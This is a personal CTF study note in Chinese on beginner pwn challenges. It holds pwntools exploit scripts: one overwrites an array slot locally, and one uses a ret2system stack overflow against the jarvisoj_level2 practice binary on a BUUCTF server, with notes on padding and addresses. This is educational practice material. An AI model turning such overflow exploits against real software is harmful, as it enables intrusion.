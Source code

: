 





编译过程的各个应用及其细节

![image-20220920140435080](../images/image-20220920140435080.png)

字母占多少字节?

<img src="../images/image-20220920140906509.png" alt="image-20220920140906509" style="zoom:50%;" />





#### 题目

![image-20220920170603518](../images/image-20220920170603518.png)





17LL ll是什么意思?? typedef      long long ll; 所以就是十进制

参考

https://blog.csdn.net/m0_43406494/article/details/109110983

让输入的数组的14位等于17即可



```python
from pwn import *

context.log_level= "debug"

io = process("./pwn")

#payload = p32(17) * 14
payload = p32(0x0)*13 + p32(17)
io.recvuntil("name?")
io.sendline(payload)

io.interactive()
```





## jarvisoj_level2

![image-20220920172846673](../images/image-20220920172846673.png)

![image-20220920172859138](../images/image-20220920172859138.png)

发现/bin/sh

![image-20220920173132605](images/image-20220920173132605.png)

如何利用那个system呢?

![image-20220920173401480](images/image-20220920173401480.png)

![image-20220920173908502](images/image-20220920173908502.png)

![image-20220920174848196](images/image-20220920174848196.png)

栈的结构又忘了..找一下图



```python
from pwn import *

context.log_level= "debug"

#io = process("./pwn")
io = remote("node4.buuoj.cn",27523)

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)
io.sendlineafter('Input:',payload)

io.interactive()
```



有两点需要注意,一个是溢出要先覆盖上一个函数的ebp,这个是32位的,所以+4, 64位的+8

第二个是 加 那个 p32(0), 这里可以随便加,这里是执行system函数后的存储地址



这里其实有好几个system的地址

0x08048320 是plt的

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)

0x0804849e 是对system的调用,直接加入参数即可

payload = b'a'*140 + p32(system_addr) + p32(binsh_addr)









